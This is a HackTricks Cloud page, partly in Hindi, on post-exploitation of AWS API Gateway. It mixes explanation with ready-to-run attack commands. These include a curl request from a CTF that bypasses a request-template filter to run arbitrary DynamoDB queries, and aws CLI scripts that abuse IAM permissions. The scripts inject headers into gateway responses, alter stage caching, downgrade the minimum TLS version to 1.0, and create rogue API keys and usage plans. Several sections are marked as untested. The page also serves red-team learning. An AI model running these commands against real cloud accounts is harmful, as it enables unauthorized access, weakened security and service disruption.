 # AWS - API Gateway Post Exploitation

{% hint style="success" %}
Learn & practice AWS Hacking:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
Learn & practice GCP Hacking: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>Support HackTricks</summary>

* Check the [**subscription plans**](https://github.com/sponsors/carlospolop)!
* **Join the** 💬 [**Discord group**](https://discord.gg/hRep4RUj7f) or the [**telegram group**](https://t.me/peass) or **follow** us on **Twitter** 🐦 [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **Share hacking tricks by submitting PRs to the** [**HackTricks**](https://github.com/carlospolop/hacktricks) and [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) github repos.

</details>
{% endhint %}

## API Gateway

For more information check:

{% content-ref url="../aws-services/aws-api-gateway-enum.md" %}
[aws-api-gateway-enum.md](../aws-services/aws-api-gateway-enum.md)
{% endcontent-ref %}

### Access unexposed APIs

आप [https://us-east-1.console.aws.amazon.com/vpc/home#CreateVpcEndpoint](https://us-east-1.console.aws.amazon.com/vpc/home?region=us-east-1#CreateVpcEndpoint:) में `com.amazonaws.us-east-1.execute-api` सेवा के साथ एक एंडपॉइंट बना सकते हैं, उस नेटवर्क में एंडपॉइंट को उजागर करें जहाँ आपके पास पहुँच है (संभवतः एक EC2 मशीन के माध्यम से) और सभी कनेक्शनों की अनुमति देने वाले सुरक्षा समूह को असाइन करें।\
फिर, EC2 मशीन से आप एंडपॉइंट तक पहुँच प्राप्त कर सकेंगे और इसलिए उस गेटवे API को कॉल कर सकेंगे जो पहले उजागर नहीं हुआ था।

### Bypass Request body passthrough

यह तकनीक [**इस CTF writeup**](https://blog-tyage-net.translate.goog/post/2023/2023-09-03-midnightsun/?\_x\_tr\_sl=en&\_x\_tr\_tl=es&\_x\_tr\_hl=en&\_x\_tr\_pto=wapp) में पाई गई थी।

जैसा कि [**AWS दस्तावेज़**](https://docs.aws.amazon.com/AWSCloudFormation/latest/UserGuide/aws-properties-apigateway-method-integration.html) में `PassthroughBehavior` अनुभाग में संकेतित किया गया है, डिफ़ॉल्ट रूप से, मान **`WHEN_NO_MATCH`** , जब अनुरोध के **Content-Type** हेडर की जांच की जाती है, तो अनुरोध को बिना किसी परिवर्तन के बैक एंड पर पास करेगा।

इसलिए, CTF में API गेटवे में एक एकीकरण टेम्पलेट था जो **फ्लैग को प्रतिक्रिया में निकालने से रोक रहा था** जब एक अनुरोध `Content-Type: application/json` के साथ भेजा गया था:

{% code overflow="wrap" %}
```yaml
RequestTemplates:
application/json: '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename=:moviename","FilterExpression": "not contains(#description, :flagstring)","ExpressionAttributeNames": {"#description": "description"},"ExpressionAttributeValues":{":moviename":{"S":"$util.escapeJavaScript($input.params(''moviename''))"},":flagstring":{"S":"midnight"}}}'
```
{% endcode %}

हालांकि, **`Content-type: text/json`** के साथ एक अनुरोध भेजने से उस फ़िल्टर को रोका जा सकता है।

अंत में, चूंकि API Gateway केवल `Get` और `Options` की अनुमति दे रहा था, इसलिए किसी भी सीमा के बिना POST अनुरोध भेजकर शरीर में क्वेरी के साथ एक मनमाना dynamoDB क्वेरी भेजना संभव था और `X-HTTP-Method-Override: GET` हेडर का उपयोग करना:

{% code overflow="wrap" %}
```bash
curl https://vu5bqggmfc.execute-api.eu-north-1.amazonaws.com/prod/movies/hackers -H 'X-HTTP-Method-Override: GET' -H 'Content-Type: text/json'  --data '{"TableName":"Movies","IndexName":"MovieName-Index","KeyConditionExpression":"moviename = :moviename","ExpressionAttributeValues":{":moviename":{"S":"hackers"}}}'
```
{% endcode %}

### Usage Plans DoS

In the **Enumeration** section you can see how to **obtain the usage plan** of the keys. If you have the key and it's **limited** to X usages **per month**, you could **just use it and cause a DoS**.

The **API Key** just need to be **included** inside a **HTTP header** called **`x-api-key`**.

### `apigateway:UpdateGatewayResponse`, `apigateway:CreateDeployment`

An attacker with the permissions `apigateway:UpdateGatewayResponse` and `apigateway:CreateDeployment` can **modify an existing Gateway Response to include custom headers or response templates that leak sensitive information or execute malicious scripts**.

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
RESPONSE_TYPE="DEFAULT_4XX"

# Update the Gateway Response
aws apigateway update-gateway-response --rest-api-id $API_ID --response-type $RESPONSE_TYPE --patch-operations op=replace,path=/responseTemplates/application~1json,value="{\"message\":\"$context.error.message\", \"malicious_header\":\"malicious_value\"}"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: संवेदनशील जानकारी का लीक, दुर्भावनापूर्ण स्क्रिप्ट का निष्पादन, या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:UpdateStage`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateStage` और `apigateway:CreateDeployment` की अनुमति है, **एक मौजूदा API गेटवे स्टेज को ट्रैफ़िक को एक अलग स्टेज पर पुनर्निर्देशित करने या कैशिंग सेटिंग्स को बदलने के लिए संशोधित कर सकता है ताकि कैश किए गए डेटा तक अनधिकृत पहुंच प्राप्त की जा सके**।

{% code overflow="wrap" %}
```bash
API_ID="your-api-id"
STAGE_NAME="Prod"

# Update the API Gateway stage
aws apigateway update-stage --rest-api-id $API_ID --stage-name $STAGE_NAME --patch-operations op=replace,path=/cacheClusterEnabled,value=true,op=replace,path=/cacheClusterSize,value="0.5"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
{% endcode %}

**संभावित प्रभाव**: कैश किए गए डेटा तक अनधिकृत पहुंच, API ट्रैफ़िक को बाधित या इंटरसेप्ट करना।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:PutMethodResponse`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:PutMethodResponse` और `apigateway:CreateDeployment` की अनुमति है, **एक मौजूदा API गेटवे REST API विधि के विधि प्रतिक्रिया को संशोधित कर सकता है ताकि कस्टम हेडर या प्रतिक्रिया टेम्पलेट शामिल किए जा सकें जो संवेदनशील जानकारी लीक करते हैं या दुर्भावनापूर्ण स्क्रिप्ट निष्पादित करते हैं**।
```bash
API_ID="your-api-id"
RESOURCE_ID="your-resource-id"
HTTP_METHOD="GET"
STATUS_CODE="200"

# Update the method response
aws apigateway put-method-response --rest-api-id $API_ID --resource-id $RESOURCE_ID --http-method $HTTP_METHOD --status-code $STATUS_CODE --response-parameters "method.response.header.malicious_header=true"

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: संवेदनशील जानकारी का लीक, दुर्भावनापूर्ण स्क्रिप्ट का निष्पादन, या API संसाधनों तक अनधिकृत पहुंच।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:UpdateRestApi`, `apigateway:CreateDeployment`

एक हमलावर जिसके पास `apigateway:UpdateRestApi` और `apigateway:CreateDeployment` की अनुमति है, **API गेटवे REST API सेटिंग्स को लॉगिंग को अक्षम करने या न्यूनतम TLS संस्करण को बदलने के लिए संशोधित कर सकता है, जो API की सुरक्षा को कमजोर कर सकता है**।
```bash
API_ID="your-api-id"

# Update the REST API settings
aws apigateway update-rest-api --rest-api-id $API_ID --patch-operations op=replace,path=/minimumTlsVersion,value='TLS_1.0',op=replace,path=/apiKeySource,value='AUTHORIZER'

# Create a deployment for the updated API Gateway REST API
aws apigateway create-deployment --rest-api-id $API_ID --stage-name Prod
```
**संभावित प्रभाव**: API की सुरक्षा को कमजोर करना, संभावित रूप से अनधिकृत पहुंच की अनुमति देना या संवेदनशील जानकारी को उजागर करना।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

### `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, `apigateway:CreateUsagePlanKey`

एक हमलावर जिसके पास अनुमतियाँ `apigateway:CreateApiKey`, `apigateway:UpdateApiKey`, `apigateway:CreateUsagePlan`, और `apigateway:CreateUsagePlanKey` हैं, **नए API कुंजी बना सकता है, उन्हें उपयोग योजनाओं के साथ जोड़ सकता है, और फिर इन कुंजियों का उपयोग API तक अनधिकृत पहुंच के लिए कर सकता है**।
```bash
# Create a new API key
API_KEY=$(aws apigateway create-api-key --enabled --output text --query 'id')

# Create a new usage plan
USAGE_PLAN=$(aws apigateway create-usage-plan --name "MaliciousUsagePlan" --output text --query 'id')

# Associate the API key with the usage plan
aws apigateway create-usage-plan-key --usage-plan-id $USAGE_PLAN --key-id $API_KEY --key-type API_KEY
```
**संभावित प्रभाव**: API संसाधनों तक अनधिकृत पहुंच, सुरक्षा नियंत्रणों को बायपास करना।

{% hint style="info" %}
परीक्षण की आवश्यकता
{% endhint %}

{% hint style="success" %}
AWS हैकिंग सीखें और अभ्यास करें:<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">[**HackTricks Training AWS Red Team Expert (ARTE)**](https://training.hacktricks.xyz/courses/arte)<img src="../../../.gitbook/assets/image (1) (1).png" alt="" data-size="line">\
GCP हैकिंग सीखें और अभ्यास करें: <img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">[**HackTricks Training GCP Red Team Expert (GRTE)**<img src="../../../.gitbook/assets/image (2).png" alt="" data-size="line">](https://training.hacktricks.xyz/courses/grte)

<details>

<summary>HackTricks का समर्थन करें</summary>

* [**सदस्यता योजनाओं**](https://github.com/sponsors/carlospolop) की जांच करें!
* **💬 [**Discord समूह**](https://discord.gg/hRep4RUj7f) या [**telegram समूह**](https://t.me/peass) में शामिल हों या **Twitter** 🐦 पर हमें **फॉलो करें** [**@hacktricks\_live**](https://twitter.com/hacktricks\_live)**.**
* **हैकिंग ट्रिक्स साझा करें और** [**HackTricks**](https://github.com/carlospolop/hacktricks) और [**HackTricks Cloud**](https://github.com/carlospolop/hacktricks-cloud) गिटहब रिपोजिटरी में PR सबमिट करें।

</details>
{% endhint %}
